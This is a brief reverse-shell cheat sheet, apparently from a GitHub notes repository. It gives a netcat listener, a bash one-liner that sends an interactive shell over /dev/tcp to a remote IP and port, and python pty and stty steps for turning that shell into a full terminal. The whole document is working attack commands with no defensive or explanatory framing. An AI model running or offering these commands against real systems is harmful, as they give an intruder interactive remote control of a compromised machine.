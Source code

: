 # Reverse Shells
## Listen
`nc -lvnp 1337`

## Connect
`bash -i >& /dev/tcp/196.168.1.11/1337 0>&1`


# Get tab completion working
```
python -c 'import pty;pty.spawn("/bin/bash");'
```
Ctrl + Z
In HOST run:
```
stty raw -echo
```
FG
